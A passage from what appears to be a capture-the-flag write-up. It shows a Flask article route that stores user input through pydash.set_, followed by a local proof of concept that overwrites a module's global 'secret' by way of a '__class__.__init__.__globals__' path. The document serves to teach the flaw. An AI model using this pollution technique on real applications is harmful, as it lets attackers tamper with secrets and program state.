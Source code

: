 **In the `/create` route, it uses `articles` object instance's `set()` method:**
```py
[...]
@app.route("/create", methods=["POST"])
def create_article():
    name, content = request.form.get('name'), request.form.get('content')
    if type(name) != str or type(content) != str or len(name) == 0:
        return redirect('/articles')
    articles.set(name, content)
    return redirect('/articles')
[...]
```

**Let's test it locally:**
```py
#!/usr/bin/env python3
import pydash

secret = 'hello'

class Articles:

    def __init__(self):
        self.set('welcome', 'Test of new template system: {%block test%}Block test{%endblock%}')

    def set(self, article_name, article_content):
        pydash.set_(self, article_name, article_content)
        return True


    def get(self, article_name):
        if hasattr(self, article_name):
            return (self.__dict__[article_name])
        return None
    
    def remove(self, article_name):
        if hasattr(self, article_name):
            delattr(self, article_name)

    def get_all(self):
        return self.__dict__

    def __getitem__(self, article_name):
        return self.get(article_name)

if __name__ == '__main__':
    articles  = Articles()

    name = '__class__.__init__.__globals__.secret'
    content = 'Polluted secret'
    articles.set(name, content)

    print(articles.get_all())
    print(secret)
```
